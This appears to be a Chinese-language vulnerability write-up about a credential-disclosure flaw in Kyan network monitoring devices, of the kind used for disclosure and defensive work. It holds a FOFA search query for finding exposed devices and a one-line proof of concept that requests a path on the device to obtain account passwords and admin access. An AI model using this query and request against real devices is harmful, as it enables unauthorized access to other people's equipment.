 # Kyan-网络监控设备-账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

> [!NOTE]
>
> Kyan

## FOFA

> [!NOTE]
>
> title="platform - Login"

## 漏洞复现

登录页面如下

![](Kyan-网络监控设备-账号密码泄露漏洞.assets/1627363624915126.jpg)

POC

```
http://xxx.xxx.xxx.xxx/hosts
```

![](Kyan-网络监控设备-账号密码泄露漏洞.assets/1627363625092486.jpg)

成功获得账号密码

## Goby & POC

> [!NOTE]
>
> Kyan design account password disclosure

![](Kyan-网络监控设备-账号密码泄露漏洞.assets/1627363625519788.jpg)

## 参考文章

https://www.secquan.org/BugWarning/1071987